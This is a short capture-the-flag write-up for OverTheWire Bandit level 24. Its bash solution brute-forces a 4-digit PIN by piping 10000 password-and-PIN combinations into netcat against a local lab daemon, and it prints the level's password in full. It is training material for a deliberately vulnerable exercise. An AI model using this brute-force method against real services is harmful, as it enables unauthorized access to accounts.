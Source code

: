 ## level 24

>bandit24:gb8KRRCsshuZXI0tUuR6************

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time.

### Solution:

```bash
# change to the /tmp directory 
cd $(mktemp -d)

# create a list to bruteforce
for i in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> pass.lst; done

# then cat the list and pipe it into netcat
cat pass.lst | nc localhost 30002
```